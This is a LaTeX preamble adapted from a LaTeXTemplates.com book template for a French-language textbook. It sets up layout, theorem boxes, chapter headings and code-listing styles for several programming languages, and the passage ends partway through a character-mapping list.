\documentclass[11pt,fleqn]{book} % Default font size and left-justified equations



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% t
% Structural Definitions File
% Version 2.1 (26/09/2018)
%
% Original author:
% Mathias Legrand (legrand.mathias@gmail.com) with modifications by:
% Vel (vel@latextemplates.com)
% 
% This file was downloaded from:
% http://www.LaTeXTemplates.com
%
% License:
% CC BY-NC-SA 3.0 (http://creativecommons.org/licenses/by-nc-sa/3.0/)
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%----------------------------------------------------------------------------------------
%	VARIOUS REQUIRED PACKAGES AND CONFIGURATIONS
%----------------------------------------------------------------------------------------

\usepackage{graphicx} % Required for including pictures
\graphicspath{{oui/image/}} % Specifies the directory where pictures are stored

\usepackage{tikz} % Required for drawing custom shapes

\usepackage[french]{babel} % English language/hyphenation

\usepackage{enumitem} % Customize lists
\setlist{nolistsep} % Reduce spacing between bullet points and numbered lists
\usepackage{listings} 
\usepackage{amssymb,amsmath,bbm}
\newlength\figureheight
\newlength\figurewidth
\usepackage{appendix}

\usepackage{booktabs} % Required for nicer horizontal rules in tables

\usepackage{xcolor} % Required for specifying colors by name
%\definecolor{ocre}{RGB}{243,102,25} % Define the orange color used for highlighting throughout the book
\definecolor{ocre}{RGB}{0,146,187}


\definecolor{vertblason}{RGB}{119,173,28}
\definecolor{vertclair}{RGB}{128,186,39}
\definecolor{vertfonce}{RGB}{63,136,39}
\definecolor{bleublason}{RGB}{0,146,187}
\definecolor{grisblason}{RGB}{111,111,110}
\definecolor{orangeuvsq}{RGB}{240,182,0}

%----------------------------------------------------------------------------------------
%	MARGINS
%----------------------------------------------------------------------------------------

\usepackage{geometry} % Required for adjusting page dimensions and margins

\geometry{
	paper=a4paper, % Paper size, change to letterpaper for US letter size
	top=3cm, % Top margin
	bottom=3cm, % Bottom margin
	left=3cm, % Left margin
	right=3cm, % Right margin
	headheight=14pt, % Header height
	footskip=1.4cm, % Space from the bottom margin to the baseline of the footer
	headsep=10pt, % Space from the top margin to the baseline of the header
	%showframe, % Uncomment to show how the type block is set on the page
}

%----------------------------------------------------------------------------------------
%	FONTS
%----------------------------------------------------------------------------------------

\usepackage{avant} % Use the Avantgarde font for headings
%\usepackage{times} % Use the Times font for headings
\usepackage{mathptmx} % Use the Adobe Times Roman as the default text font together with math symbols from the Sym­bol, Chancery and Com­puter Modern fonts

\usepackage{microtype} % Slightly tweak font spacing for aesthetics
\usepackage[utf8]{inputenc} % Required for including letters with accents
\usepackage[T1]{fontenc} % Use 8-bit encoding that has 256 glyphs

%----------------------------------------------------------------------------------------
%	BIBLIOGRAPHY AND INDEX
%----------------------------------------------------------------------------------------

%\usepackage[style=numeric,citestyle=numeric,sorting=nyt,sortcites=true,autopunct=true,babel=hyphen,hyperref=true,abbreviate=false,backref=true,backend=biber]{biblatex}
%\addbibresource{bibliography.bib} % BibTeX bibliography file
%\defbibheading{bibempty}{}

\usepackage{calc} % For simpler calculation - used for spacing the index letter headings correctly
\usepackage{makeidx} % Required to make an index
\makeindex % Tells LaTeX to create the files required for indexing

%----------------------------------------------------------------------------------------
%	MAIN TABLE OF CONTENTS
%----------------------------------------------------------------------------------------

\usepackage{titletoc} % Required for manipulating the table of contents

\contentsmargin{0cm} % Removes the default margin

% Part text styling (this is mostly taken care of in the PART HEADINGS section of this file)
\titlecontents{part}
	[0cm] % Left indentation
	{\addvspace{20pt}\bfseries} % Spacing and font options for parts
	{}
	{}
	{}

% Chapter text styling
\titlecontents{chapter}
	[1.25cm] % Left indentation
	{\addvspace{12pt}\large\sffamily\bfseries} % Spacing and font options for chapters
	{\color{ocre!60}\contentslabel[\Large\thecontentslabel]{1.25cm}\color{ocre}} % Formatting of numbered sections of this type
	{\color{ocre}} % Formatting of numberless sections of this type
	{\color{ocre!60}\normalsize\;\titlerule*[.5pc]{.}\;\thecontentspage} % Formatting of the filler to the right of the heading and the page number

% Section text styling
\titlecontents{section}
	[1.25cm] % Left indentation
	{\addvspace{3pt}\Large\sffamily\bfseries} % Spacing and font options for sections
	{\contentslabel[\thecontentslabel]{1.25cm}} % Formatting of numbered sections of this type
	{} % Formatting of numberless sections of this type
	{\hfill\color{black}\thecontentspage} % Formatting of the filler to the right of the heading and the page number

% Subsection text styling
\titlecontents{subsection}
	[1.25cm] % Left indentation
	{\addvspace{1pt}\sffamily\small} % Spacing and font options for subsections
	{\contentslabel[\thecontentslabel]{1.25cm}} % Formatting of numbered sections of this type
	{} % Formatting of numberless sections of this type
	{\ \titlerule*[.5pc]{.}\;\thecontentspage} % Formatting of the filler to the right of the heading and the page number
	

% Figure text styling
\titlecontents{figure}
	[1.25cm] % Left indentation
	{\addvspace{1pt}\sffamily\small} % Spacing and font options for figures
	{\thecontentslabel\hspace*{1em}} % Formatting of numbered sections of this type
	{} % Formatting of numberless sections of this type
	{\ \titlerule*[.5pc]{.}\;\thecontentspage} % Formatting of the filler to the right of the heading and the page number

% Table text styling
\titlecontents{table}
	[1.25cm] % Left indentation
	{\addvspace{1pt}\sffamily\small} % Spacing and font options for tables
	{\thecontentslabel\hspace*{1em}} % Formatting of numbered sections of this type
	{} % Formatting of numberless sections of this type
	{\ \titlerule*[.5pc]{.}\;\thecontentspage} % Formatting of the filler to the right of the heading and the page number

%----------------------------------------------------------------------------------------
%	MINI TABLE OF CONTENTS IN PART HEADS
%----------------------------------------------------------------------------------------

% Chapter text styling
\titlecontents{lchapter}
	[0em] % Left indentation
	{\addvspace{15pt}\large\sffamily\bfseries} % Spacing and font options for chapters
	{\color{ocre}\contentslabel[\Large\thecontentslabel]{1.25cm}\color{ocre}} % Chapter number
	{}  
	{\color{ocre}\normalsize\sffamily\bfseries\;\titlerule*[.5pc]{.}\;\thecontentspage} % Page number

% Section text styling
\titlecontents{lsection}
	[0em] % Left indentation
	{\sffamily\small} % Spacing and font options for sections
	{\contentslabel[\thecontentslabel]{1.25cm}} % Section number
	{}
	{}

% Subsection text styling (note these aren't shown by default, display them by searchings this file for tocdepth and reading the commented text)
\titlecontents{lsubsection}
	[.5em] % Left indentation
	{\sffamily\footnotesize} % Spacing and font options for subsections
	{\contentslabel[\thecontentslabel]{1.25cm}}
	{}
	{}

%----------------------------------------------------------------------------------------
%	HEADERS AND FOOTERS
%----------------------------------------------------------------------------------------

\usepackage{fancyhdr} % Required for header and footer configuration

\pagestyle{fancy} % Enable the custom headers and footers

\renewcommand{\chaptermark}[1]{\markboth{\sffamily\normalsize\bfseries\chaptername\ \thechapter.\ #1}{}} % Styling for the current chapter in the header
\renewcommand{\sectionmark}[1]{\markright{\sffamily\normalsize\thesection\hspace{5pt}#1}{}} % Styling for the current section in the header

%\fancyhf{} % Clear default headers and footers
\fancyhead[LE,RO]{\sffamily\normalsize} % Styling for the page number in the header
\fancyhead[LO]{\rightmark} % Print the nearest section name on the left side of odd pages
\fancyhead[RE]{\leftmark} % Print the current chapter name on the right side of even pages
%\fancyfoot[C]{\thepage} % Uncomment to include a footer

\renewcommand{\headrulewidth}{0.5pt} % Thickness of the rule under the header

\fancypagestyle{plain}{% Style for when a plain pagestyle is specified
	\fancyhead{}\renewcommand{\headrulewidth}{0pt}%
}

% Removes the header from odd empty pages at the end of chapters
\makeatletter
\renewcommand{\cleardoublepage}{
\clearpage\ifodd\c@page\else
\hbox{}
\vspace*{\fill}
\thispagestyle{empty}
\newpage
\fi}

%----------------------------------------------------------------------------------------
%	THEOREM STYLES
%----------------------------------------------------------------------------------------

\usepackage{amsmath,amsfonts,amssymb,amsthm} % For math equations, theorems, symbols, etc

\newcommand{\intoo}[2]{\mathopen{]}#1\,;#2\mathclose{[}}
\newcommand{\ud}{\mathop{\mathrm{{}d}}\mathopen{}}
\newcommand{\intff}[2]{\mathopen{[}#1\,;#2\mathclose{]}}
\renewcommand{\qedsymbol}{$\blacksquare$}
\newtheorem{notation}{Notation}[chapter]

% Boxed/framed environments
\newtheoremstyle{ocrenumbox}% Theorem style name
{0pt}% Space above
{0pt}% Space below
{\normalfont}% Body font
{}% Indent amount
{\small\bf\sffamily\color{ocre}}% Theorem head font
{\;}% Punctuation after theorem head
{0.25em}% Space after theorem head
{\small\sffamily\color{ocre}\thmname{#1}\nobreakspace\thmnumber{\@ifnotempty{#1}{}\@upn{#2}}% Theorem text (e.g. Theorem 2.1)
\thmnote{\nobreakspace\the\thm@notefont\sffamily\bfseries\color{black}---\nobreakspace#3.}} % Optional theorem note

\newtheoremstyle{blacknumex}% Theorem style name
{5pt}% Space above
{5pt}% Space below
{\normalfont}% Body font
{} % Indent amount
{\small\bf\sffamily}% Theorem head font
{\;}% Punctuation after theorem head
{0.25em}% Space after theorem head
{\small\sffamily{\tiny\ensuremath{\blacksquare}}\nobreakspace\thmname{#1}\nobreakspace\thmnumber{\@ifnotempty{#1}{}\@upn{#2}}% Theorem text (e.g. Theorem 2.1)
\thmnote{\nobreakspace\the\thm@notefont\sffamily\bfseries---\nobreakspace#3.}}% Optional theorem note

\newtheoremstyle{blacknumbox} % Theorem style name
{0pt}% Space above
{0pt}% Space below
{\normalfont}% Body font
{}% Indent amount
{\small\bf\sffamily}% Theorem head font
{\;}% Punctuation after theorem head
{0.25em}% Space after theorem head
{\small\sffamily\thmname{#1}\nobreakspace\thmnumber{\@ifnotempty{#1}{}\@upn{#2}}% Theorem text (e.g. Theorem 2.1)
\thmnote{\nobreakspace\the\thm@notefont\sffamily\bfseries---\nobreakspace#3.}}% Optional theorem note

% Non-boxed/non-framed environments
\newtheoremstyle{ocrenum}% Theorem style name
{5pt}% Space above
{5pt}% Space below
{\normalfont}% Body font
{}% Indent amount
{\small\bf\sffamily\color{ocre}}% Theorem head font
{\;}% Punctuation after theorem head
{0.25em}% Space after theorem head
{\small\sffamily\color{ocre}\thmname{#1}\nobreakspace\thmnumber{\@ifnotempty{#1}{}\@upn{#2}}% Theorem text (e.g. Theorem 2.1)
\thmnote{\nobreakspace\the\thm@notefont\sffamily\bfseries\color{black}---\nobreakspace#3.}} % Optional theorem note
\makeatother

% Defines the theorem text style for each type of theorem to one of the three styles above
\newcounter{dummy} 
\numberwithin{dummy}{section}
\theoremstyle{ocrenumbox}
\newtheorem{theoremeT}[dummy]{Theorem}
\newtheorem{problem}{Problem}[chapter]
\newtheorem{exerciseT}{Exercise}[chapter]
\theoremstyle{blacknumex}
\newtheorem{exampleT}{Example}[chapter]
\theoremstyle{blacknumbox}
\newtheorem{vocabulary}{Vocabulary}[chapter]
\newtheorem{definitionT}{Definition}[section]
\newtheorem{corollaryT}[dummy]{Corollary}
\theoremstyle{ocrenum}
\newtheorem{proposition}[dummy]{Proposition}

%----------------------------------------------------------------------------------------
%	DEFINITION OF COLORED BOXES
%----------------------------------------------------------------------------------------

\RequirePackage[framemethod=default]{mdframed} % Required for creating the theorem, definition, exercise and corollary boxes

% Theorem box
\newmdenv[skipabove=7pt,
skipbelow=7pt,
backgroundcolor=black!5,
linecolor=ocre,
innerleftmargin=5pt,
innerrightmargin=5pt,
innertopmargin=5pt,
leftmargin=0cm,
rightmargin=0cm,
innerbottommargin=5pt]{tBox}

% Exercise box	  
\newmdenv[skipabove=7pt,
skipbelow=7pt,
rightline=false,
leftline=true,
topline=false,
bottomline=false,
backgroundcolor=ocre!10,
linecolor=ocre,
innerleftmargin=5pt,
innerrightmargin=5pt,
innertopmargin=5pt,
innerbottommargin=5pt,
leftmargin=0cm,
rightmargin=0cm,
linewidth=4pt]{eBox}	

% Definition box
\newmdenv[skipabove=7pt,
skipbelow=7pt,
rightline=false,
leftline=true,
topline=false,
bottomline=false,
linecolor=ocre,
innerleftmargin=5pt,
innerrightmargin=5pt,
innertopmargin=0pt,
leftmargin=0cm,
rightmargin=0cm,
linewidth=4pt,
innerbottommargin=0pt]{dBox}	

% Corollary box
\newmdenv[skipabove=7pt,
skipbelow=7pt,
rightline=false,
leftline=true,
topline=false,
bottomline=false,
linecolor=gray,
backgroundcolor=black!5,
innerleftmargin=5pt,
innerrightmargin=5pt,
innertopmargin=5pt,
leftmargin=0cm,
rightmargin=0cm,
linewidth=4pt,
innerbottommargin=5pt]{cBox}

% Creates an environment for each type of theorem and assigns it a theorem text style from the "Theorem Styles" section above and a colored box from above
\newenvironment{theorem}{\begin{tBox}\begin{theoremeT}}{\end{theoremeT}\end{tBox}}
\newenvironment{exercise}{\begin{eBox}\begin{exerciseT}}{\hfill{\color{ocre}\tiny\ensuremath{\blacksquare}}\end{exerciseT}\end{eBox}}				  
\newenvironment{definition}{\begin{dBox}\begin{definitionT}}{\end{definitionT}\end{dBox}}	
\newenvironment{example}{\begin{exampleT}}{\hfill{\tiny\ensuremath{\blacksquare}}\end{exampleT}}		
\newenvironment{corollary}{\begin{cBox}\begin{corollaryT}}{\end{corollaryT}\end{cBox}}	

%----------------------------------------------------------------------------------------
%	REMARK ENVIRONMENT
%----------------------------------------------------------------------------------------

\newenvironment{remark}{\par\vspace{10pt}\small % Vertical white space above the remark and smaller font size
\begin{list}{}{
\leftmargin=35pt % Indentation on the left
\rightmargin=25pt}\item\ignorespaces % Indentation on the right
\makebox[-2.5pt]{\begin{tikzpicture}[overlay]
\node[draw=ocre!60,line width=1pt,circle,fill=ocre!25,font=\sffamily\bfseries,inner sep=2pt,outer sep=0pt] at (-15pt,0pt){\textcolor{ocre}{R}};\end{tikzpicture}} % Orange R in a circle
\advance\baselineskip -1pt}{\end{list}\vskip5pt} % Tighter line spacing and white space after remark

%----------------------------------------------------------------------------------------
%	SECTION NUMBERING IN THE MARGIN
%----------------------------------------------------------------------------------------

\makeatletter
\renewcommand{\@seccntformat}[1]{\llap{\textcolor{ocre}{\csname the#1\endcsname}\hspace{1em}}}                    
\renewcommand{\section}{\@startsection{section}{1}{\z@}
{-4ex \@plus -1ex \@minus -.4ex}
{1ex \@plus.2ex }
{\normalfont\large\sffamily\bfseries}}
\renewcommand{\subsection}{\@startsection {subsection}{2}{\z@}
{-3ex \@plus -0.1ex \@minus -.4ex}
{0.5ex \@plus.2ex }
{\normalfont\sffamily\bfseries}}
\renewcommand{\subsubsection}{\@startsection {subsubsection}{3}{\z@}
{-2ex \@plus -0.1ex \@minus -.2ex}
{.2ex \@plus.2ex }
{\normalfont\small\sffamily\bfseries}}                        
\renewcommand\paragraph{\@startsection{paragraph}{4}{\z@}
{-2ex \@plus-.2ex \@minus .2ex}
{.1ex}
{\normalfont\small\sffamily\bfseries}}

%----------------------------------------------------------------------------------------
%	PART HEADINGS
%----------------------------------------------------------------------------------------

% Numbered part in the table of contents
\newcommand{\@mypartnumtocformat}[2]{%
	\setlength\fboxsep{0pt}%
	\noindent\colorbox{ocre!20}{\strut\parbox[c][.7cm]{\ecart}{\color{ocre!70}\Large\sffamily\bfseries\centering#1}}\hskip\esp\colorbox{ocre!40}{\strut\parbox[c][.7cm]{\linewidth-\ecart-\esp}{\Large\sffamily\centering#2}}%
}

% Unnumbered part in the table of contents
\newcommand{\@myparttocformat}[1]{%
	\setlength\fboxsep{0pt}%
	\noindent\colorbox{ocre!40}{\strut\parbox[c][.7cm]{\linewidth}{\Large\sffamily\centering#1}}%
}

\newlength\esp
\setlength\esp{4pt}
\newlength\ecart
\setlength\ecart{1.2cm-\esp}
\newcommand{\thepartimage}{}%
\newcommand{\partimage}[1]{\renewcommand{\thepartimage}{#1}}%
\def\@part[#1]#2{%
\ifnum \c@secnumdepth >-2\relax%
\refstepcounter{part}%
\addcontentsline{toc}{part}{\texorpdfstring{\protect\@mypartnumtocformat{\thepart}{#1}}{\partname~\thepart\ ---\ #1}}
\else%
\addcontentsline{toc}{part}{\texorpdfstring{\protect\@myparttocformat{#1}}{#1}}%
\fi%
\startcontents%
\markboth{}{}%
{\thispagestyle{empty}%
\begin{tikzpicture}[remember picture,overlay]%
\node at (current page.north west){\begin{tikzpicture}[remember picture,overlay]%	
\fill[ocre!20](0cm,0cm) rectangle (\paperwidth,-\paperheight);
\node[anchor=north] at (4cm,-3.25cm){\color{ocre!40}\fontsize{220}{100}\sffamily\bfseries\thepart}; 
\node[anchor=south east] at (\paperwidth-1cm,-\paperheight+1cm){\parbox[t][][t]{8.5cm}{
\printcontents{l}{0}{\setcounter{tocdepth}{1}}% The depth to which the Part mini table of contents displays headings; 0 for chapters only, 1 for chapters and sections and 2 for chapters, sections and subsections
}};
\node[anchor=north east] at (\paperwidth-1.5cm,-3.25cm){\parbox[t][][t]{15cm}{\strut\raggedleft\color{white}\fontsize{30}{30}\sffamily\bfseries#2}};
\end{tikzpicture}};
\end{tikzpicture}}%
\@endpart}
\def\@spart#1{%
\startcontents%
\phantomsection
{\thispagestyle{empty}%
\begin{tikzpicture}[remember picture,overlay]%
\node at (current page.north west){\begin{tikzpicture}[remember picture,overlay]%	
\fill[ocre!20](0cm,0cm) rectangle (\paperwidth,-\paperheight);
\node[anchor=north east] at (\paperwidth-1.5cm,-3.25cm){\parbox[t][][t]{15cm}{\strut\raggedleft\color{white}\fontsize{30}{30}\sffamily\bfseries#1}};
\end{tikzpicture}};
\end{tikzpicture}}
\addcontentsline{toc}{part}{\texorpdfstring{%
\setlength\fboxsep{0pt}%
\noindent\protect\colorbox{ocre!40}{\strut\protect\parbox[c][.7cm]{\linewidth}{\Large\sffamily\protect\centering #1\quad\mbox{}}}}{#1}}%
\@endpart}
\def\@endpart{\vfil\newpage
\if@twoside
\if@openright
\null
\thispagestyle{empty}%
\newpage
\fi
\fi
\if@tempswa
\twocolumn
\fi}

%----------------------------------------------------------------------------------------
%	CHAPTER HEADINGS
%----------------------------------------------------------------------------------------

% A switch to conditionally include a picture, implemented by Christian Hupfer
\newif\ifusechapterimage
\usechapterimagetrue
\newcommand{\thechapterimage}{}%
\newcommand{\chapterimage}[1]{\ifusechapterimage\renewcommand{\thechapterimage}{#1}\fi}%
\newcommand{\autodot}{.}
\def\@makechapterhead#1{%
{\parindent \z@ \raggedright \normalfont
\ifnum \c@secnumdepth >\m@ne
\if@mainmatter
\begin{tikzpicture}[remember picture,overlay]
\node at (current page.north west)
{\begin{tikzpicture}[remember picture,overlay]
\node[anchor=north west,inner sep=0pt] at (0,0) {\ifusechapterimage\includegraphics[width=\paperwidth]{\thechapterimage}\fi};
\draw[anchor=west] (\Gm@lmargin,-9cm) node [line width=2pt,rounded corners=15pt,draw=ocre,fill=white,fill opacity=0.5,inner sep=15pt]{\strut\makebox[22cm]{}};
\draw[anchor=west] (\Gm@lmargin+.3cm,-9cm) node {\huge\sffamily\bfseries\color{black}\thechapter\autodot~#1\strut};
\end{tikzpicture}};
\end{tikzpicture}
\else
\begin{tikzpicture}[remember picture,overlay]
\node at (current page.north west)
{\begin{tikzpicture}[remember picture,overlay]
\node[anchor=north west,inner sep=0pt] at (0,0) {\ifusechapterimage\includegraphics[width=\paperwidth]{\thechapterimage}\fi};
\draw[anchor=west] (\Gm@lmargin,-9cm) node [line width=2pt,rounded corners=15pt,draw=ocre,fill=white,fill opacity=0.5,inner sep=15pt]{\strut\makebox[22cm]{}};
\draw[anchor=west] (\Gm@lmargin+.3cm,-9cm) node {\huge\sffamily\bfseries\color{black}#1\strut};
\end{tikzpicture}};
\end{tikzpicture}
\fi\fi\par\vspace*{270\p@}}}

%-------------------------------------------

\def\@makeschapterhead#1{%
\begin{tikzpicture}[remember picture,overlay]
\node at (current page.north west)
{\begin{tikzpicture}[remember picture,overlay]
\node[anchor=north west,inner sep=0pt] at (0,0) {\ifusechapterimage\includegraphics[width=\paperwidth]{\thechapterimage}\fi};
\draw[anchor=west] (\Gm@lmargin,-9cm) node [line width=2pt,rounded corners=15pt,draw=ocre,fill=white,fill opacity=0.5,inner sep=15pt]{\strut\makebox[22cm]{}};
\draw[anchor=west] (\Gm@lmargin+.3cm,-9cm) node {\huge\sffamily\bfseries\color{black}#1\strut};
\end{tikzpicture}};
\end{tikzpicture}
\par\vspace*{270\p@}}
\makeatother

%----------------------------------------------------------------------------------------
%	LINKS
%----------------------------------------------------------------------------------------

\usepackage{hyperref}
\hypersetup{hidelinks,backref=true,pagebackref=true,hyperindex=true,colorlinks=false,breaklinks=true,urlcolor=ocre,bookmarks=true,bookmarksopen=false}

\usepackage{bookmark}
\bookmarksetup{
open,
numbered,
addtohook={%
\ifnum\bookmarkget{level}=0 % chapter
\bookmarksetup{bold}%
\fi
\ifnum\bookmarkget{level}=-1 % part
\bookmarksetup{color=ocre,bold}%
\fi
}
}


%----------------------------------------------------------------------------------------
%	CODE LISTINGS
%----------------------------------------------------------------------------------------
 

  \definecolor{colbg}{rgb}{0.8,0.8,0.8} %  {0.8,1.0,1.0}
   \definecolor{colKeys}{rgb}{0,0,1} 
   \definecolor{colIdentifier}{rgb}{0,0.4,0.2} 
   \definecolor{colComments}{rgb}{0.5,0.5,0.5} 
   \definecolor{colString}{rgb}{0.6,0.1,0.1} 
   \definecolor{shbg}{rgb}{0.85,0.85,0.85} 
   \definecolor{shgrey}{rgb}{0.1,0.1,0.1} 
   \definecolor{lightgrey}{rgb}{0.7,0.7,0.7} 
   \definecolor{black}{rgb}{0.0,0.0,0.0} 
   \definecolor{white}{rgb}{1.0,1.0,1.0} 
   \definecolor{maroon}{cmyk}{0, 0.87, 0.68, 0.32}
\definecolor{halfgray}{gray}{0.55}
\definecolor{ipython_frame}{RGB}{207, 207, 207}
\definecolor{ipython_bg}{RGB}{247, 247, 247}
\definecolor{ipython_red}{RGB}{186, 33, 33}
\definecolor{ipython_green}{RGB}{0, 128, 0}
\definecolor{ipython_cyan}{RGB}{64, 128, 128}
\definecolor{ipython_purple}{RGB}{170, 34, 255}


\lstset{
     literate=%
         {á}{{\'a}}1
         {í}{{\'i}}1
         {é}{{\'e}}1
         {ý}{{\'y}}1
         {ú}{{\'u}}1
         {ó}{{\'o}}1
         {ě}{{\v{e}}}1
         {š}{{\v{s}}}1
         {č}{{\v{c}}}1
         {ř}{{\v{r}}}1
         {ž}{{\v{z}}}1
         {ď}{{\v{d}}}1
         {ť}{{\v{t}}}1
         {ň}{{\v{n}}}1                
         {ů}{{\r{u}}}1
         {Á}{{\'A}}1
         {Í}{{\'I}}1
         {É}{{\'E}}1
         {Ý}{{\'Y}}1
         {Ú}{{\'U}}1
         {Ó}{{\'O}}1
         {Ě}{{\v{E}}}1
         {Š}{{\v{S}}}1
         {Č}{{\v{C}}}1
         {Ř}{{\v{R}}}1
         {Ž}{{\v{Z}}}1
         {Ď}{{\v{D}}}1
         {Ť}{{\v{T}}}1
         {Ň}{{\v{N}}}1                
         {Ů}{{\r{U}}}1    
}

   \newcommand{\setlstc}{
   \lstset{% general command to set parameter(s)
     float=hbp,language=c,tabsize=3,extendedchars=false,
     basicstyle=\ttfamily\small, % print whole listing small
     keywordstyle=\color{blue}\bfseries,
     identifierstyle=\color{colIdentifier}, % nothing happens
     commentstyle=\color{colComments}, % grey comments
     stringstyle=\color{blue}, % typewriter type for strings
     xrightmargin=-2cm, % 
     xleftmargin=-2cm,
     backgroundcolor=\color{colbg},
     frame=single, % 
     framerule=0pt, % 
     xrightmargin=1cm, % 
     xleftmargin=1cm, 
     showstringspaces=false % no special string spaces
   } }

   \newcommand{\setlstbash}{
   \lstset{% general command to set parameter(s)
     float=hbp,language=bash,tabsize=3,extendedchars=false,
     basicstyle=\ttfamily\small, % print whole listing small
     keywordstyle=\color{blue}\bfseries,
     identifierstyle=\color{colIdentifier}, % nothing happens
     commentstyle=\color{colComments}, % grey comments
     stringstyle=\color{blue}, % typewriter type for strings
     xrightmargin=-2cm, % 
     xleftmargin=-2cm,
     backgroundcolor=\color{colbg},
     frame=single, % 
     framerule=0pt, % 
     xrightmargin=1cm, % 
     xleftmargin=1cm, 
     showstringspaces=false % no special string spaces
   } }


   \newcommand{\setlstmake}{
   \lstset{% general command to set parameter(s)
     float=hbp,language=make,
     basicstyle=\ttfamily\small, % print whole listing small
     keywordstyle=\color{blue}\bfseries,
     identifierstyle=\color{colIdentifier}, % nothing happens
     commentstyle=\color{colComments}, % grey comments
     stringstyle=\color{blue}, % typewriter type for strings
     backgroundcolor=\color{colbg},
     frame=single, % 
     framerule=0pt, % 
     showstringspaces=false % no special string spaces
   } }

 \newcommand{\setlstcsh}{
   \lstset{language=csh,
     backgroundcolor=\color{shbg},
     basicstyle=\ttfamily\color{shgrey},
     identifierstyle=\color{shgrey},
     commentstyle=\color{shgrey},
     identifierstyle=\color{shgrey},
     stringstyle=\color{shgrey},
     frame=single, % 
     framerule=0pt, % 
     keywordstyle=\color{shgrey}
   }
 }


 \newcommand{\setlstscreen}{
   \lstset{language=csh,
     backgroundcolor=\color{black},
     basicstyle=\sffamily\color{lightgrey},
     identifierstyle=\color{lightgrey},
     commentstyle=\color{lightgrey},
     identifierstyle=\color{lightgrey},
     stringstyle=\color{lightgrey},
     frame=single, % 
     framerule=0pt, % 
     keywordstyle=\color{lightgrey}
   }
 }


   \newcommand{\setlstgeneralform}{
   \lstset{% general command to set parameter(s)
     float=hbp,language=C,
     basicstyle=\ttfamily\small, % print whole listing small
     keywordstyle=\color{black}\bfseries,
     identifierstyle=\color{black}, % nothing happens
     commentstyle=\color{black}, % grey comments
     stringstyle=\color{shgrey}, % typewriter type for strings
     backgroundcolor=\color{white},
     frame=single, % 
     framerule=1pt, % 
     showstringspaces=false % no special string spaces
   } 
   }

\newcommand{\setlstjava}{
  \lstset{
    xrightmargin=1cm, % 
    xleftmargin=1cm, 
    language=Java,
    basicstyle=\ttfamily\small, 
    upquote=true,
    aboveskip={1.5\baselineskip},
    columns=fullflexible,
    showstringspaces=false,
    extendedchars=true,
    breaklines=true,
    showtabs=false,
    showspaces=false,
    showstringspaces=false,
    identifierstyle=\ttfamily,
    keywordstyle=\color[rgb]{0,0,1}\bfseries,
    commentstyle=\color[rgb]{0.133,0.545,0.133},
    stringstyle=\color[rgb]{0.627,0.126,0.941},
    backgroundcolor=\color{colbg},
  }
}


\lstdefinelanguage{algo}{%
  morekeywords={algorithme, programme, classe, 
                fonction, procedure, methode, constructeur,
                declaration, declarations, 
                debut,fin, 
                variable, variables, parametre, parametres, attribut, attributs,
                si,alors,sinon,finsi,
                selon, cas, 
                tantque,faire,fintantque,repeter,retourner,tant,que,pour,
                ecrire, lire
  },
  sensitive=false,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[s]{"}{"},
 % numbers=left,
 % frame=single,
  literate=%
  {::}{{$\leftrightarrow$}}{2}
  {:=}{{$\leftarrow$}}{2}
  {<=}{{$\le$}}{2}
  {>=}{{$\ge$}}{2}
  {é}{{\'e}}{1}
}



\newcommand{\setlstalgo}{
  \lstset{
    xrightmargin=1cm, % 
    xleftmargin=1cm, 
    language=algo,
    basicstyle=\ttfamily\small, 
    upquote=true,
    aboveskip={1.5\baselineskip},
    columns=fullflexible,
    showstringspaces=false,
    extendedchars=true,
    breaklines=true,
    showtabs=false,
    showspaces=false,
    showstringspaces=false,
    identifierstyle=\ttfamily,
    keywordstyle=\color[rgb]{0,0,1}\bfseries,
    commentstyle=\color[rgb]{0.133,0.545,0.133},
    stringstyle=\color[rgb]{0.627,0.126,0.941},
    backgroundcolor=\color{colbg},
  }
}

\lstdefinelanguage{iPython}{
    morekeywords={access,and,break,class,continue,def,del,elif,else,except,exec,finally,for,from,global,if,import,in,is,lambda,not,or,pass,print,raise,return,try,while},%
    %
    % Built-ins
    morekeywords=[2]{abs,all,any,basestring,bin,bool,bytearray,callable,chr,classmethod,cmp,compile,complex,delattr,dict,dir,divmod,enumerate,eval,execfile,file,filter,float,format,frozenset,getattr,globals,hasattr,hash,help,hex,id,input,int,isinstance,issubclass,iter,len,list,locals,long,map,max,memoryview,min,next,object,oct,open,ord,pow,property,range,raw_input,reduce,reload,repr,reversed,round,set,setattr,slice,sorted,staticmethod,str,sum,super,tuple,type,unichr,unicode,vars,xrange,zip,apply,buffer,coerce,intern},%
    %
    sensitive=true,%
    morecomment=[l]\#,%
    morestring=[b]',%
    morestring=[b]",%
    %
    morestring=[s]{'''}{'''},% used for documentation text (mulitiline strings)
    morestring=[s]{"""}{"""},% added by Philipp Matthias Hahn
    %
    morestring=[s]{r'}{'},% `raw' strings
    morestring=[s]{r"}{"},%
    morestring=[s]{r'''}{'''},%
    morestring=[s]{r"""}{"""},%
    morestring=[s]{u'}{'},% unicode strings
    morestring=[s]{u"}{"},%
    morestring=[s]{u'''}{'''},%
    morestring=[s]{u"""}{"""},%
    %
    % {replace}{replacement}{lenght of replace}
    % *{-}{-}{1} will not replace in comments and so on
    literate=
    {á}{{\'a}}1 {é}{{\'e}}1 {í}{{\'i}}1 {ó}{{\'o}}1 {ú}{{\'u}}1
    {Á}{{\'A}}1 {É}{{\'E}}1 {Í}{{\'I}}1 {Ó}{{\'O}}1 {Ú}{{\'U}}1
    {à}{{\`a}}1 {è}{{\`e}}1 {ì}{{\`i}}1 {ò}{{\`o}}1 {ù}{{\`u}}1
    {À}{{\`A}}1 {È}{{\'E}}1 {Ì}{{\`I}}1 {Ò}{{\`O}}1 {Ù}{{\`U}}1
    {ä}{{\"a}}1 {ë}{{\"e}}1 {ï}{{\"i}}1 {ö}{{\"o}}1 {ü}{{\"u}}1
    {Ä}{{\"A}}1 {Ë}{{\"E}}1 {Ï}{{\"I}}1 {Ö}{{\"O}}1 {Ü}{{\"U}}1
    {â}{{\^a}}1 {ê}{{\^e}}1 {î}{{\^i}}1 {ô}{{\^o}}1 {û}{{\^u}}1
    {Â}{{\^A}}1 {Ê}{{\^E}}1 {Î}{{\^I}}1 {Ô}{{\^O}}1 {Û}{{\^U}}1
    {œ}{{\oe}}1 {Œ}{{\OE}}1 {æ}{{\ae}}1 {Æ}{{\AE}}1 {ß}{{\ss}}1
